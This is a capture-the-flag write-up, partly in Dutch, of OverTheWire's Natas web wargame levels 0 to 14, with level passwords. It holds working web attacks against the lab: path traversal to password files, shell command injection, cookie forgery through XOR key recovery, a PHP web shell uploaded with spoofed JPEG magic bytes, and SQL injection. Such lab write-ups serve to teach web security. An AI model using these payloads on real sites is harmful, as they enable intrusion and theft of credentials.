

# Natas (Web)

##  Level 0

Username: natas0
Password: natas0
URL:      http://natas0.natas.labs.overthewire.org

**elk level gaat de username omhoog gelijk aan het nummer vh level**


The password for natas1 is 0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq 

## Level 0 → Level 1


via F12 ipv right click > inspect

The password for natas2 is TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI 

## Level 1 → Level 2

View Source !!!

``` html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas2", "pass": "TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI" };</script></head>
<body>
<h1>natas2</h1>
<div id="content">
There is nothing on this page

</div>
</body></html>
```

Interesting:

``` html
There is nothing on this page

```

leads to http://natas2.natas.labs.overthewire.org/files/pixel.png

Now check the files directory where we see an interesting file named users.txt:


And here we can find the flag:


**natas3: 3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH**

## Level 2 → Level 3

``` html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas3", "pass": "3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH" };</script></head>
<body>
<h1>natas3</h1>
<div id="content">
There is nothing on this page
<!-- No more information leaks!! Not even Google will find it this time... -->
</div>
</body></html>
```

Interesting line:

```
<!-- No more information leaks!! Not even Google will find it this time... -->
```

Hints to the fact that we can check robots.txt

robots.txt is the filename used for implementing the Robots Exclusion Protocol, a standard used by websites to indicate to visiting web crawlers and other web robots which portions of the website they are allowed to visit. The standard, developed in 1994, relies on voluntary compliance.


Now we go to s3cr3t:


And here we again can see a user.txt file that gives us the password:


**natas4: QryZXc2e0zahULdHrtHxzyYkj59kUxLQ**

## Level 3 → Level 4

``` html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

Interesting lines:

``` html
<div id="content">
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
```

If we refresh it says:

``` html
Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
```

We can conclude that it has something to do with GET request 

Now go download ZAP Proxy + (FoxyProxy Extension and your Certificate) 

Here we can see the password for natas4


Now we will press stop, do a new GET request and change the referen to natas5 instead of natas4 (do Open/Resend with Request Editor):


Now check the response and the flag is there:


**Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK**

## Level 4 → Level 5

Interesting html in sourcecode:

``` html
<div id="content">
Access disallowed. You are not logged in</div>
```

Cookie (loggedin) veranderen in storage van 0 naar 1 en refreshen: 



**Access granted. The password for natas6 is 0RoJwHdSKWFTYR5WuiAewauSuNaBXned**

## Level 5 → Level 6

``` html
<div id="content">

<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>

<form method=post>
Input secret: <input name=secret><br>
```


**?$secret = "FOEIUWGHFEEUHOFUOIU";?**

Now fill the secret in the form and you will get the following message:

**Access granted. The password for natas7 is bmg8SvU1LizuWjx3y7xkNERkHxGre0GS**

## Level 6 → Level 7

``` html
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

Het zal iets te maken hebben met /etc/natas_webpass/natas8 en met natas7.natas.labs.overthewire.org/index.php?page=**???**

Je moest gewoon de volgende URL ingeven:

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

Je kan het ook op volgende manier doen:

http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8

http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8%20%E2%86%92%20..%2F..%2F..%2F..%2Fetc%2Fnatas_webpass%2Fnatas8

xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q 

## Level 7 → Level 8

``` html
<div id="content">
<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```

[https://cyberchef.org](https://cyberchef.org)

```3d3d516343746d4d6d6c315669563362 (From Hex) -> ==QcCtmMml1ViV3b```

```==QcCtmMml1ViV3b (Reverse) -> b3ViV1lmMmtCcQ==```

```b3ViV1lmMmtCcQ== (From base64) -> oubWYf2kBq```

**Access granted. The password for natas9 is ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t** 

## Level 8 → Level 9

``` html
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>

<pre>
</pre>
```

http://natas9.natas.labs.overthewire.org/?needle=*&submit=password

``` html
</form>
Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

index.php:    passthru("grep -i $key dictionary.txt")
```

**By reading the code, we can tell that there is a potential command injection. So if we enter ; cat /etc/natas_webpass/natas10 in the search field, we will get the password. That’s due to the fact that the ; token separates commands in a shell.**

http://natas9.natas.labs.overthewire.org/?needle=;%20cat%20/etc/natas_webpass/natas10&submit=Search


Find words containing:

Output:

t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu

## Level 9 → Level 10

``` html
<h1>natas10</h1>
<div id="content">

For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

http://natas10.natas.labs.overthewire.org/?needle=;&submit=Search

Input contains illegal character (/[;|&]/):

``` html

<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

**This one is quite similar to the previous one however, we got some restriction on the characters. But, we could try to read all the files of a directory using the following input : .* /etc/natas_webpass/natas11**

http://natas10.natas.labs.overthewire.org/?needle=.*%20/etc/natas_webpass/natas11&submit=Search

/etc/natas_webpass/natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk


## Level 10 → Level 11

``` html
<h1>natas11</h1>
<div id="content">
<body style="background: #ffffff;">
Cookies are protected with XOR encryption<br/><br/>

<form>
Background color: <input name=bgcolor value="#ffffff">
<input type=submit value="Set color">
</form>
```

If we go to cookeis we get the following: data:"HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg%3D"

``` html
<?

$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}

$data = loadData($defaultdata);

if(array_key_exists("bgcolor",$_REQUEST)) {
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
        $data['bgcolor'] = $_REQUEST['bgcolor'];
    }
}

saveData($data);


?>

<h1>natas11</h1>
<div id="content">
<body style="background: <?=$data['bgcolor']?>;">
Cookies are protected with XOR encryption<br/><br/>

<?
if($data["showpassword"] == "yes") {
    print "The password for natas12 is <censored><br>";
}

?>
```

A line to look out for:

```
json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true)
```

**ciphertext XOR plaintext = key, it’s called known-plaintext attack**

Notes:

```
XOR:
• A xor B = C
• A xor C = B
• B xor C = A

So;
if
• Key xor DefaultData = CookieData
then
• DefaultData xor CookieData = Key

◇ After we found the key then we can change the DefaultData and get the new Cookie to see the password
```

https://onlinephp.io/

### Deel 1: De cookie decoderen en de sleutel achterhalen

``` php
<?php
function xor_encrypt($in) {
    $cipher = json_encode(array("showpassword"=>"no", "bgcolor"=>"#fffff")); 
    $text = $in;
    $key = '';
    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $key .= $text[$i] ^ $cipher[$i % strlen($cipher)];
    }
    return $key;
}
$cookie = base64_decode('HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg%3D');
echo xor_encrypt($cookie)
?>
```

Uitleg script:

```
1. Versleutelde cookie decoderen: De versleutelde cookie HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg%3D wordt eerst omgezet van base64 naar de oorspronkelijke byte-representatie met base64_decode().
2. XOR-operatie uitvoeren: De functie xor_encrypt() vergelijkt de gedecodeerde cookie ($cookie) met de plaintext json_encode(array("showpassword"=>"no", "bgcolor"=>"#ffffff")).
De XOR-operatie (^) werkt hier om de sleutel te vinden:
key[i] = cookie[i] XOR plaintext[i]
Omdat we de plaintext kennen (de standaarddata "showpassword"=>"no" en "bgcolor"=>"#ffffff"), kunnen we de sleutel afleiden.
```

Output:

**eDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeD0c**

### Deel 2: De cookie manipuleren

``` php
<?php
function xor_encrypt($in) {
    $cipher = 'eDWo'; 
    $text = $in;
    $key = '';
    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $key .= $text[$i] ^ $cipher[$i % strlen($cipher)];
    }
    return $key;
}
$data = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");
print base64_encode(xor_encrypt(json_encode($data)))
?>
```

Uitleg code:

```
1. Kende sleutel gebruiken: De sleutel eDWo (gebaseerd op de output van Deel 1) wordt gebruikt om nieuwe gegevens ($data) te versleutelen.
2. Nieuwe gegevens maken: De nieuwe data bevat "showpassword"=>"yes" in plaats van "showpassword"=>"no". Dit betekent dat de gewijzigde cookie ervoor zal zorgen dat we toegang krijgen tot het wachtwoord.
3. Versleuteling toepassen: De functie xor_encrypt() XOR’t de nieuwe gegevens ($data) met de sleutel eDWo en genereert de versleutelde waarde.
4. Base64-encodering: De versleutelde data wordt gecodeerd in base64 en uitgeprint.
```

Output:

**HmYkBwozJw4WNyAAFyB1VUc9MhxHaHUNAic4Awo2dVVHZzEJAyIxCUc5**

Vervang nu de oorspronkelijke cookie door deze cookie (HmYkBwozJw4WNyAAFyB1VUc9MhxHaHUNAic4Awo2dVVHZzEJAyIxCUc5) en herlaad de pagina:

**The password for natas12 is yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB**

## Level 11 → Level 12

``` php
<h1>natas12</h1>
<div id="content">
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
```

Trying to upload a file:

``` html
<body>
<h1>natas12</h1>
<div id="content">
The file <a href="upload/skwa3sv253.jpg">upload/skwa3sv253.jpg</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

gets uploaded here in the uplaod map:

http://natas12.natas.labs.overthewire.org/upload/skwa3sv253.jpg

I don't have access to this directory.

<code><span style="color: #000000">
&lt;html&gt;<br />&lt;head&gt;<br />&lt;!--&nbsp;This&nbsp;stuff&nbsp;in&nbsp;the&nbsp;header&nbsp;has&nbsp;nothing&nbsp;to&nbsp;do&nbsp;with&nbsp;the&nbsp;level&nbsp;--&gt;<br />&lt;link&nbsp;rel="stylesheet"&nbsp;type="text/css"&nbsp;href="http://natas.labs.overthewire.org/css/level.css"&gt;<br />&lt;link&nbsp;rel="stylesheet"&nbsp;href="http://natas.labs.overthewire.org/css/jquery-ui.css"&nbsp;/&gt;<br />&lt;link&nbsp;rel="stylesheet"&nbsp;href="http://natas.labs.overthewire.org/css/wechall.css"&nbsp;/&gt;<br />&lt;script&nbsp;src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"&gt;&lt;/script&gt;<br />&lt;script&nbsp;src="http://natas.labs.overthewire.org/js/jquery-ui.js"&gt;&lt;/script&gt;<br />&lt;script&nbsp;src=http://natas.labs.overthewire.org/js/wechall-data.js&gt;&lt;/script&gt;&lt;script&nbsp;src="http://natas.labs.overthewire.org/js/wechall.js"&gt;&lt;/script&gt;<br />&lt;script&gt;var&nbsp;wechallinfo&nbsp;=&nbsp;{&nbsp;"level":&nbsp;"natas12",&nbsp;"pass":&nbsp;"&lt;censored&gt;"&nbsp;};&lt;/script&gt;&lt;/head&gt;<br />&lt;body&gt;<br />&lt;h1&gt;natas12&lt;/h1&gt;<br />&lt;div&nbsp;id="content"&gt;<br /><span style="color: #0000BB">&lt;?php<br /><br /></span><span style="color: #007700">function&nbsp;</span><span style="color: #0000BB">genRandomString</span><span style="color: #007700">()&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">$length&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #0000BB">10</span><span style="color: #007700">;<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">$characters&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #DD0000">"0123456789abcdefghijklmnopqrstuvwxyz"</span><span style="color: #007700">;<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">$string&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #DD0000">""</span><span style="color: #007700">;<br /><br />&nbsp;&nbsp;&nbsp;&nbsp;for&nbsp;(</span><span style="color: #0000BB">$p&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #0000BB">0</span><span style="color: #007700">;&nbsp;</span><span style="color: #0000BB">$p&nbsp;</span><span style="color: #007700">&lt;&nbsp;</span><span style="color: #0000BB">$length</span><span style="color: #007700">;&nbsp;</span><span style="color: #0000BB">$p</span><span style="color: #007700">++)&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">$string&nbsp;</span><span style="color: #007700">.=&nbsp;</span><span style="color: #0000BB">$characters</span><span style="color: #007700">[</span><span style="color: #0000BB">mt_rand</span><span style="color: #007700">(</span><span style="color: #0000BB">0</span><span style="color: #007700">,&nbsp;</span><span style="color: #0000BB">strlen</span><span style="color: #007700">(</span><span style="color: #0000BB">$characters</span><span style="color: #007700">)-</span><span style="color: #0000BB">1</span><span style="color: #007700">)];<br />&nbsp;&nbsp;&nbsp;&nbsp;}<br /><br />&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;</span><span style="color: #0000BB">$string</span><span style="color: #007700">;<br />}<br /><br />function&nbsp;</span><span style="color: #0000BB">makeRandomPath</span><span style="color: #007700">(</span><span style="color: #0000BB">$dir</span><span style="color: #007700">,&nbsp;</span><span style="color: #0000BB">$ext</span><span style="color: #007700">)&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;do&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">$path&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #0000BB">$dir</span><span style="color: #007700">.</span><span style="color: #DD0000">"/"</span><span style="color: #007700">.</span><span style="color: #0000BB">genRandomString</span><span style="color: #007700">().</span><span style="color: #DD0000">"."</span><span style="color: #007700">.</span><span style="color: #0000BB">$ext</span><span style="color: #007700">;<br />&nbsp;&nbsp;&nbsp;&nbsp;}&nbsp;while(</span><span style="color: #0000BB">file_exists</span><span style="color: #007700">(</span><span style="color: #0000BB">$path</span><span style="color: #007700">));<br />&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;</span><span style="color: #0000BB">$path</span><span style="color: #007700">;<br />}<br /><br />function&nbsp;</span><span style="color: #0000BB">makeRandomPathFromFilename</span><span style="color: #007700">(</span><span style="color: #0000BB">$dir</span><span style="color: #007700">,&nbsp;</span><span style="color: #0000BB">$fn</span><span style="color: #007700">)&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">$ext&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #0000BB">pathinfo</span><span style="color: #007700">(</span><span style="color: #0000BB">$fn</span><span style="color: #007700">,&nbsp;</span><span style="color: #0000BB">PATHINFO_EXTENSION</span><span style="color: #007700">);<br />&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;</span><span style="color: #0000BB">makeRandomPath</span><span style="color: #007700">(</span><span style="color: #0000BB">$dir</span><span style="color: #007700">,&nbsp;</span><span style="color: #0000BB">$ext</span><span style="color: #007700">);<br />}<br /><br />if(</span><span style="color: #0000BB">array_key_exists</span><span style="color: #007700">(</span><span style="color: #DD0000">"filename"</span><span style="color: #007700">,&nbsp;</span><span style="color: #0000BB">$_POST</span><span style="color: #007700">))&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">$target_path&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #0000BB">makeRandomPathFromFilename</span><span style="color: #007700">(</span><span style="color: #DD0000">"upload"</span><span style="color: #007700">,&nbsp;</span><span style="color: #0000BB">$_POST</span><span style="color: #007700">[</span><span style="color: #DD0000">"filename"</span><span style="color: #007700">]);<br /><br /><br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if(</span><span style="color: #0000BB">filesize</span><span style="color: #007700">(</span><span style="color: #0000BB">$_FILES</span><span style="color: #007700">[</span><span style="color: #DD0000">'uploadedfile'</span><span style="color: #007700">][</span><span style="color: #DD0000">'tmp_name'</span><span style="color: #007700">])&nbsp;&gt;&nbsp;</span><span style="color: #0000BB">1000</span><span style="color: #007700">)&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;echo&nbsp;</span><span style="color: #DD0000">"File&nbsp;is&nbsp;too&nbsp;big"</span><span style="color: #007700">;<br />&nbsp;&nbsp;&nbsp;&nbsp;}&nbsp;else&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if(</span><span style="color: #0000BB">move_uploaded_file</span><span style="color: #007700">(</span><span style="color: #0000BB">$_FILES</span><span style="color: #007700">[</span><span style="color: #DD0000">'uploadedfile'</span><span style="color: #007700">][</span><span style="color: #DD0000">'tmp_name'</span><span style="color: #007700">],&nbsp;</span><span style="color: #0000BB">$target_path</span><span style="color: #007700">))&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;echo&nbsp;</span><span style="color: #DD0000">"The&nbsp;file&nbsp;&lt;a&nbsp;href=\"</span><span style="color: #0000BB">$target_path</span><span style="color: #DD0000">\"&gt;</span><span style="color: #0000BB">$target_path</span><span style="color: #DD0000">&lt;/a&gt;&nbsp;has&nbsp;been&nbsp;uploaded"</span><span style="color: #007700">;<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}&nbsp;else{<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;echo&nbsp;</span><span style="color: #DD0000">"There&nbsp;was&nbsp;an&nbsp;error&nbsp;uploading&nbsp;the&nbsp;file,&nbsp;please&nbsp;try&nbsp;again!"</span><span style="color: #007700">;<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}<br />&nbsp;&nbsp;&nbsp;&nbsp;}<br />}&nbsp;else&nbsp;{<br /></span><span style="color: #0000BB">?&gt;<br /></span><br />&lt;form&nbsp;enctype="multipart/form-data"&nbsp;action="index.php"&nbsp;method="POST"&gt;<br />&lt;input&nbsp;type="hidden"&nbsp;name="MAX_FILE_SIZE"&nbsp;value="1000"&nbsp;/&gt;<br />&lt;input&nbsp;type="hidden"&nbsp;name="filename"&nbsp;value="<span style="color: #0000BB">&lt;?php&nbsp;</span><span style="color: #007700">print&nbsp;</span><span style="color: #0000BB">genRandomString</span><span style="color: #007700">();&nbsp;</span><span style="color: #0000BB">?&gt;</span>.jpg"&nbsp;/&gt;<br />Choose&nbsp;a&nbsp;JPEG&nbsp;to&nbsp;upload&nbsp;(max&nbsp;1KB):&lt;br/&gt;<br />&lt;input&nbsp;name="uploadedfile"&nbsp;type="file"&nbsp;/&gt;&lt;br&nbsp;/&gt;<br />&lt;input&nbsp;type="submit"&nbsp;value="Upload&nbsp;File"&nbsp;/&gt;<br />&lt;/form&gt;<br /><span style="color: #0000BB">&lt;?php&nbsp;</span><span style="color: #007700">}&nbsp;</span><span style="color: #0000BB">?&gt;<br /></span>&lt;div&nbsp;id="viewsource"&gt;&lt;a&nbsp;href="index-source.html"&gt;View&nbsp;sourcecode&lt;/a&gt;&lt;/div&gt;<br />&lt;/div&gt;<br />&lt;/body&gt;<br />&lt;/html&gt;<br /></span>
</code>

We can try to upload an image, but that won’t get us very far. We need to upload something with the ability to execute commands. Because this website is written in PHP, the code we upload should also be written in PHP.

Uploading a file that executes some kind of command (preferably in an interactive way) is called a web shell. They can range from very simple to very complex, but let’s start on the simpler side.

shell.php:

``` php
<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```

- Gets the “e” parameter from a GET request
- Executes this value
- Redirects stderr (standard error) output to stdout (standard out) so we can see any error messages

now we have to edit the form in the main page like this (this is how we manipulate the POST request):


``` html
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="filename" value="1u9jcuqc0h.jpg">
```

to this:

``` html
<input type="hidden" name="filename" value="1u9jcuqc0h.php">
```

Now we will be able to see php instead of jpg.

We can try something like this now to get the flag (/etc/natas_webpass/natasX as in previous levels)

http://natas12.natas.labs.overthewire.org/upload/1u9jcuqc0h.php?e=cat%20/etc/natas_webpass/natas13


**trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC**

## Level 12 → Level 13

``` html
<div id="content">
For security reasons, we now only accept image files!<br/><br/>
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="v3p7kxpkav.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

``` php
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
```

This PHP function reads the first few bytes of a file, sometimes known as “magic headers” to determine the file type. It won’t be fooled by just changing the file extension. 

Only image files? Any way to inject php into this?

We will edit the php file from before, and manipulate the magic bytes to jpg with **hexedit**

```
<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```


we need four bytes - FF D8 FF E0


We still have to edit the form in the main page like this (this is how we manipulate the POST request):

``` html
<input type="hidden" name="filename" value="f9w2oagy08.php">
```


http://natas13.natas.labs.overthewire.org/upload/f9w2oagy08.php?e=cat%20/etc/natas_webpass/natas14


**����z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ**

## Level 13 → Level 14

``` php
<div id="content">
<?php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
?>
<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<?php } ?>
```

Looks like a standard SQL injection

Username:

```" OR 1=1 -- ```

After injecting " OR 1=1 --, the SQL query becomes:
 
``` sql
SELECT * FROM users WHERE username="" OR 1=1 -- " AND password=""
```
- 1=1 is always true, so it returns all users.
- -- is an SQL comment, which ignores the rest of the query.

**Successful login! The password for natas15 is SdqIqBsFcz3yotlNYErZSZwblkm0lrvx**

## Level 14 → Level 15

``` php
<h1>natas15</h1>
<div id="content">
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

